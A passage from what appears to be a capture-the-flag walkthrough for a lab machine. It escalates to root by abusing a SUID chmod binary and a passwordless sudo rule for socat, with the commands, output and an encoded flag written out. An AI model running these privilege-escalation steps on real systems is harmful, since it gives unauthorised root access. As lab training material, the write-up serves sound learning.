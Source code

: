 Verify that the `/root` directory is not allowed to access:

```tsx
bash-4.4$ ls -l /
[REDACTED...]
drwx------   4 root root  4096 Oct  6  2020 root
[REDACTED...]
```

Exploit the `/chmod` service which is set with `SUID` permission:

```tsx
bash-4.4$ LFILE="/root"
LFILE="/root"
bash-4.4$ /bin/chmod 6777 $LFILE
/bin/chmod 6777 $LFILE
```

Check the permission on the `/root` directory again and observe it is now accessable:

```tsx
bash-4.4$ ls -l /
[REDACTED...]
drwsrwsrwx   4 root root  4096 Oct  6  2020 root
[REDACTED...]
```

```tsx
bash-4.4$ ls /root
ls /root
root.txt
bash-4.4$ cat /root/root.txt
cat /root/root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
```

### Sudo -l

Type `sudo -l` to view all the commands that could be run by user `elyana` as `root`:

```tsx
bash-4.4$ sudo -l
sudo -l
Matching Defaults entries for elyana on elyana:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elyana may run the following commands on elyana:
    (ALL) NOPASSWD: /usr/bin/socat
```

Exploit the `socat` service as the bellow command:

```tsx
bash-4.4$ sudo /usr/bin/socat stdin exec:/bin/sh
sudo /usr/bin/socat stdin exec:/bin/sh
id
id
uid=0(root) gid=0(root) groups=0(root)
ls /root
ls /root
root.txt
cat /root/root.txt
cat /root/root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
```